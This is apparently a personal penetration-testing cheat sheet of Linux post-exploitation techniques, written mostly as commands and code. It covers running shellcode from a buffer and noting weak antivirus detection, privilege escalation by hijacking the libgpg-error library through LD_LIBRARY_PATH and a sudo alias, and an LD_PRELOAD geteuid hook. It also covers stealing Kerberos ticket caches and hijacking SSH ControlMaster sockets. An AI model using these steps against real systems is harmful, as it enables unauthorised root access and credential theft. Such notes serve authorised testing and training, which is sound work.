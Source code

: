 * Linux AV is bad with custom c binarys

## Shellcode execute
```
int (*ret)() = (int(*)())buf;
ret();
```
```
gcc -o example example.c -z execstack
```

## PE
* If there is auto task running with sudo, try hijacking
* may not works depends on secure path setting
* TODO: test cross compilation
* TODO: msf shell with\without encoder
* Worked: normal without encoder + on target


### libgpg-error.so.0
```
export LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
```
gcc -Wall -fPIC -c -o test.o test.c
gcc -shared -Wl,--version-script [path to symbol map file ] -o libgpg-error.so.0 test.o
```
```
alias sudo="sudo LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]"
```


### geteuid
```
gcc -Wall -fPIC -z execstack -c -o test.o test.c
gcc -shared -o test.so test.o -ldl
export LD_PRELOAD=[path to so file]
```
* triger
```
cp /etc/passwd /tmp/test
```

## Kerberos
```
klist
kvno cifs/dmzdc01.complyedge.com
sudo cp /tmp/krb5cc_75401103_hOg8VH /tmp/krb5cc_minenow
export KRB5CCNAME=/tmp/krb5cc_minenow
```

## controlmaster
* Check ssh config first  
* Check /.ssh/controlmaster/ if same user, ssh directly
* if with sudo
```
ssh -S /home/testuser/.ssh/controlmaster/testuser\@testbox\:22 testuser@testbox
```